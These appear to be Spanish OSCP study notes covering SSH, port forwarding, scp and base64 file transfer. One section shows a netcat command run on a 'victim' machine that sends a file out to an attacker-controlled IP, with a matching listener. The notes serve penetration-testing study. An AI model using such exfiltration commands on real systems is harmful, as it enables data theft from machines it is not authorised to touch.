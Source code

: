 # Apuntes-OSCP

## SSH
```bash
 ssh -p22 usuario@host_remoto
```
#### reenvio de puertos
```bash
 ssh -L [PUERTO_LOCAL]:[HOST_REMOTO]:[PUERTO_REMOTO] usuario@host_remoto
```
#### Inicio de sesion con id_rsa
El id_rsa debe tener el siguiente permiso
```bash
 chmod 600 id_rsa
```
```bash
 ssh -i id_rsa usuario@host_remoto
```
### SCP y transferencia de archivos
#### Maneras posibles de pasar archivos
Traer el archivo a mi maquina con scp
```bash
 scp target_user@IP_remota:/ruta/completa/al/archivo .
```
Traer archivos con nc (cuando no dispongo contraseña)
</br>en la mquina victima
```bash
nc 19.10.10.10 9091 < archivo
```
luego en mi maquina
```bash
nc -lvnp 9091 > archivo
```
Cuando no es posible, ej: una BD, entonces
```bash
base64 filename > outputfile.b64
```
Sino tambien
```bash
echo -n 'texto' | base64
```
Luego en mi maquina
```bash
base64 -d encodedfile.b64 > outputfile
```

